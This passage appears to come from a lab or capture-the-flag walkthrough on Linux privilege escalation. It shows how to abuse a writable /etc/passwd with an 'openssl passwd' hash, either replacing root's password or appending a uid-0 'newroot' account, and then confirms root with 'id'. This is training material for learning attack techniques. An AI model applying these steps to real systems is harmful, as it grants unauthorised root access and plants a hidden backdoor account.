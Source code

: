 ### Step 2: Generate a New Password Hash

Create a new password hash using the following command:

```bash
openssl passwd newpasswordhere
```

**Explanation:**  
This command generates a cryptographic hash of the password you provide using the DES-based crypt method, which is compatible with the format expected by the `/etc/passwd` file.

### Step 3: Replace the Root User’s Password

Edit the `/etc/passwd` file and replace the `x` in the root user’s entry with the newly generated password hash:

```bash
vim /etc/passwd
```

Alternatively, you can copy the root user’s entry, modify it, and create a new user with root privileges:

1. Copy the root user’s row and append it at the bottom of the file.
2. Change the first instance of `root` to `newroot`.
3. Replace the `x` with your generated password hash.

### Step 4: Gain Access with the New User

Switch to the root user (or the newly created `newroot` user) using the password associated with the hash:

```bash
su root
```

Or:

```bash
su newroot
```

**Explanation:**  
Modifying the `/etc/passwd` file allows you to either change the root password or create a new user with root privileges, both of which enable you to gain root access.

### Q1. Run the `id` command as the newroot user. What is the result?

After switching to the `newroot` user, verify the user’s privileges:

```bash
id
```

**Sample Output:**

```bash
uid=0(root) gid=0(root) groups=0(root)
```
